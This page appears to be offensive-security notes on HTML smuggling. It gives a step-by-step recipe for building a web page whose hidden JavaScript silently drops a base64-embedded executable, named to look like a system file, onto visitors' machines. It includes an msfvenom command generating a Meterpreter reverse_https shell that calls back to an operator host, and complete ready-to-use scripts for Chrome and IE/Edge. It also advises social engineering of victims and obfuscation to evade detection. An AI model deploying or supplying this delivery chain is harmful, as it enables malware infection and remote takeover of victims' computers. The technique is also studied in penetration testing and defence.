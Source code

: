 # Using JavaScript

Overview of steps required to embed JavaScript within an HTML document that will trigger an automatic download of a first stage payload to a target system when the web page is visited by the victim. The file still has to be saved to disk by the user and then manually executed, which will require manipulating the user to performs these tasks via social engineering and/or a form of pretexting.

For Chrome, the user will have to select to "keep" the file in order to save it to disk.

For IE/Edge, the user will have to select to "run" to execute or "save" to save to disk.

Windows SmartScreen is also likely to pop up to block execution because the executable originated from a download via a browser. The user will have to click to allow the execution of the file.

{% hint style="info" %}
This example is for educational purposes only. In the real world, this code will be further obfuscated in order to evade detection.
{% endhint %}

### Steps

The steps below walks you through creating JavaScript code that is compatible with Chrome. For IE/Edge, see the full script section for the compatible code. Note that the IE/Edge code does not work with Chrome and vice versa.

#### Step 1:

Generate a Meterpreter shellcode windows binary.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/o.exe
```

Generate a base64 encoded string of the binary to help avoid invalid or bad characters.

```
base64 /var/www/html/o.exe
```

#### Step 2:

Write a base64 to byte array converter function in JavaScript to decode the shellcode into a byte array.

```javascript
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
```

#### Step 3:

Create a variable to store the filename for the payload that will be saved on the target system.

```javascript
var outName = 'winsys64.exe';
```

#### Step 4:

Store the base64 encoded payload in a variable. Remove any line breaks or new lines from the base64 encoded executable to embed it as one continuous string (or, wrap each line in quotes).

```javascript
var payL ='TvqQAAMAAAAEAAAA//8AAAA…’ <--base64 encoded binary -->
```

#### Step 5:

Convert the encoded shellcode into a bytearray and store in a new variable.

```javascript
var stream = base64ToByteArray(payL);
```

#### Step 6:

To use the HTML5 download attribute, create a blob object and instantiate it with the payload byte array.

```javascript
var blobby = new Blob([stream], {type: 'octet/stream'});
```

#### Step 7:

Create a URL file object using the blob object. This simulates a file located on the web server, but instead reads it from memory.

```javascript
var urlRef = window.URL.createObjectURL(blobby);
```

#### Step 8:

Create the new anchor object and append it to the HTML document. Set the display attribute to none to hide it from the output of the rendered page.

```javascript
var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
```

#### Step 9:

Set the href tag to the URL file object created in step 7.

```javascript
anc.href = urlRef;
```

#### Step 10:

Set the download attribute by specifying the filename to store the payload in. Use the click() method to trigger the download onto the target machine.

```javascript
anc.download = outName;
anc.click();
```

Step 11:

Finally, let the browser know that you are finished with the URL object so it knows not to keep the reference to the file any longer.

```javascript
window.URL.revokeObjectURL(urlRef);
```

### Full script (Chrome)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
var urlRef = window.URL.createObjectURL(blobby);

var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
anc.href = urlRef;
anc.download = outName;
anc.click();
window.URL.revokeObjectURL(urlRef);
</script>
```

### Full script (IE/Edge)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
window.navigator.msSaveOrOpenBlob(blobby, outName);
</script>
```





